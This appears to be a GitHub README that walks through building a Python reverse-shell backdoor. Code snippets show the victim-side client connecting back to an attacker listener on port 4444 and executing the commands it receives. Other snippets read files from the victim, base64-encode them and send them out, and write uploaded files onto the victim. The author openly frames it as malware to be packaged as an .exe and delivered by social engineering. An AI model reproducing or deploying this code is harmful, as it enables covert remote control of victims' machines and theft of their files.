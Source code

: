# Backdoor

A backdoor refers to any method by which authorized and unauthorized users are able to get around normal security measures and gain high level user access on a computer system, network, or software application. With this malware we're going to gain access to download files, upload files, and access any repository that we want.</br>
## HOW?</br>
This malware have to be executed on the target machine, this repository don't cover the part of this malware being executed on the target machine because this is done with social engineering, converting the progam .py in one file .exe, anyway i won't cover this here, i'm gonna show how to create the malware.

## Behavior of a Backdoor
The idea is connect the both computers(mine and the target machine) using sockets, but trying to connect my computer with the target directly doesn't work, the system denies the connection with some random port obviously, is like someone random trying to connect with my computer i wouldn't allow. So instead of me try to connect with some random port of the target machine i'm gonna make the target machine connect with me, when the target downloads the .exe it's gonna run the progam and this way connecting with some port that i opened in my computer.</br>

Once i already have the connection how i'm gonna execute commands on the target machine and download files e upload files? With the socket connection i can send and receive strings between the computers, so i'm gonna send the command that i want to execute on the target machine and he will receive, and my progam(the program that the target downloaded) will treat the string and execute on the target machine, sending back to my computer the command result. EX: if the target use Windows and i send the command "cd" as a string he will receive and my progam(on the target machine) it's gonna execute and send back the command result, in this case the directory that i'm.</br>

The first thing that my .exe it's gonna do, when the target execute, it's connect with my machine using the module "socket" of python, in this case the connection is made by the constructor when i creat an object of the class backdoor.
```python
def __init__(self, ip, port):
    self.connection = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    self.connection.connect((ip, port))

my_backdoor = Backdoor ("192.168.1.8",4444)
my_backdoor.run()
```
then i run the methon run() that is gonna run all the time while the connection is up, the method receive_as_json() receive the commands that i sent from my machine, it receive as json because the socket connection just receive strings and how the commands that i want to execute are biggers, because they are lists like "dowload file.txt", i use json that converts lists and everything in strings.
```python
def receive_as_json(self):
        json_data = ""
        while True:
            try:
                json_data = json_data + self.connection.recv(1024)
                return json.loads(json_data)
            except ValueError:
                continue
```
this is other method that have an infinite loop because i can receive just 1024 bytes for each interaction, so verify if all the content already been received, if not keep receiveing more 1024 bytes.</br>

the try statement it's gonna verify the command list, precisely the first position to verify what i want to use(cd, download, upload) any other command will execute without any problems. When the cd command is executed i just change my directory to which i want to go(second part of the list the command[1]) with the module "os". And the result i put in variable command_result that is sent to my computer as json. 
```python
           try:
                if command[0] == "exit":
                    self.connection.close()
                    sys.exit()
                elif command[0] == "cd" and len(command) > 1:
                       self.change_working_directory_to(command[1])
                       command_result = "[+] Changing working directory to " + str(command[1])
                elif command[0] == "download":
                    command_result = self.read_file(command[1])
                elif command[0] == "upload":
                    command_result = self.write_file(command[1], command[2])  
                else:
                    command_result = self.execute_system_command(command)
            except Exception as e:
                command_result = "[-] Error during comand execution."
 
            self.send_as_json(command_result)
```
To download and upload files between the connection the logic is almost the same, the ideia is to copy the file that i want to download from the target machine and create a new file on my machine with the same content that i received through the connection. When i copy a file i actually copy all the characters from this file and when i paste i create a new file with this characters that i copied.
```python
def read_file(self, path):
    with open(path, "rb") as file:
         return base64.b64encode(file.read())
```
the logic reading the file is eazy, i just read the file that i want to download as a binary file, and convert into base 64 with the module "base64", because, when i read as a binary file unknow characters comes with the other characters, so converting the file to base 64 the unknow characters don't appear anymore.</br>

Anyway when i download one file from the target machine i actually sent the characters through the socket connection and receive on my machine, then one file is created with this characters that came from the target machine, this way i have the file that i wanted on my pc. Now when i want to upload files to my target is the same logic i just have to send from my computer the characters(in base 64) of the file, and the target machine will receive and use the method write_file() to create a new file with the characters that i want.

```python
 def write_file(self, path, content):
        with open(path, "wb") as file:
            file.write(base64.b64decode(content))
            return "[+] Upload successful."
```
All of this was the reverse_backdoor.py in format of .exe that was executed on the target machine, the listener is almost the same thing of this code, the differences are the constructor that open a port to receive the connection from the target machine.
```python
def __init__(self, ip, port):
          listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
          listener.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
          listener.bind((ip, port))
          listener.listen(0)
          print("[+] Waiting  for incoming connections")
          self.connection, address = listener.accept()
          print("[+] Got a connection from" + str(address))
```

the method run() it's gonna be in loop until i write the word "exit", while this i have an input to send the command that i want to the target machine, then i split the command to convert into a list. As i said if the first position of my list is "upload" i'm gonna read characters that i want and send through the socket connection as json, if the command is "download" i'm gonna send the command and receive the characters from the file that i want, and create a file with this characters.

```python
def run(self):
          while True:
                command = raw_input(">> ")
                command = command.split(" ")

                try:
		               if command[0] == "upload":
	                    file_content = self.read_file(command[1])
	                    command.append(file_content) 

		               result = self.execute_remotely(command) 
		                      
		               if command[0] == "download":
		                  result = self.write_file(command[1], result)
               except Exception:
                   result = "[-] Error during command execution"  

               print(result)
```
##The Backdoor in action...

First of all i have to execute the listener.py in my machine and wait the target download the .exe, with my testing machine
i downloaded the .exe(the file reverse_backdoor.py) then the connection is made automatically from the target machine. How you can see i got a connection from my target and if write the command ipconfig i already can see the result on my machine about the target machine. 

![Alt text](/<images/gif1.gif)

With the command "dir" i can see wich files are in that directoy, i want to download the image "codeImage.png", sending the command "download codeImage.png" the image appears on my machine.

![Alt text](/<images/gif2.gif)

Now i want to send the file EVILFILE.txt to my target, as you can see with the command "dir" there was nothing like that on the target,but when i write the command "upload EVILFILE.txt"...

![Alt text](/<images/gif3.gif)





